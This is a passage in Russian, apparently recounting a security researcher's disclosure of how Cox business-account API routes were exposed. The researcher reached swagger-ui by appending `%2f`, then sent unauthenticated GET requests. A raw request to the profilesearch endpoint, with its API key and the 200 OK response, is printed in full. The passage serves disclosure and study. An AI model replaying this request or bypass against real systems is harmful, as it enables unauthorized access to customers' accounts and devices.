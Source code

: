 Добавив в браузере правило на добавление `%2f` в конец запросов он смог зайти на страницу `swagger-ui`:

![alt text](swagger.png)

Таким же методом от подгрузил все остальные `swagger-ui` страницы получив в итоге список из около 700 API маршрутов. Из них он выбрал те которые наиболее похожи на что-то взаимодействующее с роутерами пользователя и поотправлял на них get запросы, в результате чего половина отвечала `200 OK`, а оставшиеся ошибкой авторизации. Он пролистал успешные ответы и увидел один интересный, а именно profilesearch:

```
GET /api/cbma/profile/services/profile/profilesearch/ HTTP/1.1
Host: myaccount-business.cox.com
Clientid: cbmauser
Apikey: 5d228662-aaa1-4a18-be1c-fb84db78cf13
Cb_session: unauthenticateduser
Authorization: Bearer undefined
```

```
HTTP/1.1 200 OK
Content-type: application/json

{
  "message": "Success",
  "profile": {
    "numberofRecords": "0 hits",
    "searchList": []
  }
}
```

